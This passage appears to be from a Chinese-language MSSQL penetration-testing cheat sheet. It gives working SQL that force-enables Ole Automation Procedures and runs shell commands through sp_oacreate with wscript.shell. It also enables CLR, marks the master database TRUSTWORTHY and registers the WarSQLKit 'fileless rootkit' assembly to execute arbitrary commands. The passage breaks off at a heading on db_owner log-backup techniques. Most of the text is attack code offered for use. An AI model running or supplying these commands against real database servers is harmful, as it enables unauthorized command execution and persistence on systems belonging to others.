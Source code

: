   ```mssql
  select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'
  
  返回值为1 → 开启
  ```

- 强制开启

  ```mssql
  EXEC sp_configure 'show advanced options', 1;  
  RECONFIGURE WITH OVERRIDE;  
  EXEC sp_configure 'Ole Automation Procedures', 1;  
  RECONFIGURE WITH OVERRIDE;  
  ```

- 命令执行--无回显（不返回命令结果）

  ```mssql
  declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami > e:\\test2.txt'
  ```



### CLR功能

> CLR（公共语言运行时）提供了 .NET Framework 的代码执行环境，可以通过 .NET Framework 来编写存储过程、触发器等功能 。简单说，通过 CLR 能够在 [SQLServer](https://cloud.tencent.com/product/sqlserver?from=20065&from_column=20065) 中注册一套程序集，实现执行任意的 .NET 代码。既然可以执行代码，此时就可以实现很多功能。

使用：https://github.com/mindspoof/MSSQL-Fileless-Rootkit-WarSQLKit

```mssql
--启用MSSQL CLR功能
exec sp_configure 'show advanced options', 1;
RECONFIGURE;
Exec sp_configure 'clr enabled', 1;
RECONFIGURE;
 
--为了导入了不安全的程序集，我们还需要将数据库标记为安全。
ALTER DATABASE [master] SET TRUSTWORTHY ON;
 
--导入程序集，单独执行
xxx
--创建存储过程,单独执行
CREATE PROCEDURE sp_cmdExec @Command [nvarchar](4000) WITH EXECUTE AS CALLER AS EXTERNAL NAME WarSQLKit.StoredProcedures.CmdExec;
--执行命令
EXEC sp_cmdExec 'whoami';
--删除该程序集
DROP PROCEDURE sp_cmdExec;DROP ASSEMBLY [WarSQLKit];
```

## db_owner权限

### LOG备份
